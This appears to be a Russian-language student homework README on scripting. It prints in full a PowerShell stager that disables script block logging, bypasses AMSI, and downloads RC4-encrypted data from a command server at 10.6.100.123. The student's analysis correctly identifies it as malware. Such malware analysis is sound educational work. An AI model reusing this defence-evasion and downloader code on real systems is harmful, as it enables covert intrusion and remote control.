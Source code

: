 # Домашняя работа № 27
### Scripting, web, python  
*part 2*

---

## Задачи:

1. **Написать красочный интерактивный Python-script**  
    - Для автоматизации ваших часто повторяемых действий, либо парсинга сайта для получения нужной информации.

<details>
  <summary> Выполнение </summary>
  
В процессе

</details>

2. **Расписать действия данного PowerShell-script**

```powershell
IF ($PSVersionTable.PSVersion.Major -ge 3) {
    $GPF = [REF].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
    If ($GPF) {
        $GPC = $GPF.GetValue($NULL);
        IF ($GPC['ScriptB' + 'lockLogging']) {
            $GPC['ScriptB' + 'lockLogging']['EnableScriptB' + 'lockLogging'] = 0;
            $GPC['ScriptB' + 'lockLogging']['EnableScriptBlockInvocationLogging'] = 0;
        }
        $VAL = [Collections.Generic.Dictionary[string,System.Object]]::new();
        $VAL.Add('EnableScriptB' + 'lockLogging', 0);
        $VAL.Add('EnableScriptBlockInvocationLogging', 0);
        $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB' + 'lockLogging'] = $VAL;
    } ELSE {
        [ScriptBlock].GetField('signatures', 'NonPublic,Static').SetValue($NULL, (New-Object Collections.Generic.HashSet[string]));
    }

    [REF].Assembly.GetType('System.Management.Automation.AmsiUtils') | ? {
        $_.GetField('amsiInitFailed', 'NonPublic,Static').SetValue($NULL, $True)
    };
}

[SYSTEM.Net.ServicePointManager]::Expect100Continue = 0;
$WC = New-Object System.Net.WebClient;
$u = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
$WC.Headers.Add('User-Agent', $u);
$WC.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
$WC.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;

$R = {
    $D, $K = $Args;
    $S = 0..255;
    0..255 | % {
        $J = ($J + $S[$_] + $K[$_ % $K.Count]) % 256;
        $S[$_], $S[$J] = $S[$J], $S[$_];
    }
    $D | % {
        $I = ($I + 1) % 256;
        $H = ($H + $S[$I]) % 256;
        $S[$I], $S[$H] = $S[$H], $S[$I];
        $_ -bxor $S[($S[$I] + $S[$H]) % 256];
    }
};

$ser = "http://10.6.100.123:80";
$St = "/news.php";
$WC.Headers.Add("Cookie", "session=8xD4koAuu7qHah4KQzwZ/kDq40c=");
$DATA = $WC.DownloadData($ser + $T);
$IV = $DATA[0..3];
$DATA = $DATA[4..$DATA.Length - 1];
-join ([Char[]](&$R $DATA $IV + $K))
```

<details>
  <summary> Выполнение </summary>
  
Этот скрипт PowerShell выполняет следующие действия:

1. **Отключение защиты PowerShell (строки 1–19):**
   - Проверяет версию PowerShell. Если версия 3 или выше, отключает механизмы безопасности:
     - Блокировка логирования скриптов (`ScriptBlockLogging`).
     - Проверка антивирусом через AMSI (Antimalware Scan Interface).
   - Удаляет существующие сигнатуры ScriptBlock, чтобы скрыть выполнение вредоносного кода.

2. **Настройка веб-клиента (строки 21–29):**
   - Создаёт веб-клиент с поддельным `User-Agent`, чтобы имитировать легитимное поведение браузера.
   - Настраивает прокси-сервер и передаёт сетевые учётные данные для взаимодействия с удалённым сервером.

3. **Шифрование и дешифрование данных (строки 31–40):**
   - Реализует простой RC4-подобный алгоритм для обработки данных (зашифровывает или расшифровывает их).
   - Этот алгоритм используется для маскировки отправляемых или получаемых данных.

4. **Загрузка данных (строки 42–48):**
   - Отправляет HTTP-запрос на сервер `http://10.6.100.123:80/news.php` с заголовком Cookie `session`.
   - Загружает данные с сервера, выделяет первые 4 байта как вектор (IV) для шифрования и дешифрует оставшуюся часть данных.

5. **Цель (общая структура):**
   - Скрипт нацелен на выполнение вредоносной задачи:
     - Загрузка дополнительного вредоносного кода (payload).
     - Получение команд с удалённого сервера.

---

**Итог:**  
Скрипт представляет собой вредоносное ПО, предназначенное для скрытного выполнения действий в системе, обхода защитных механизмов PowerShell и взаимодействия с командным сервером.


</details>

---

## Дополнительные ресурсы:

- [Создание symbo table для кастомных ядер](https://blog.tofile.dev/2022/08/22/cloud-forensics.html)
- [HTML5 Templates](https://html5up.net/)

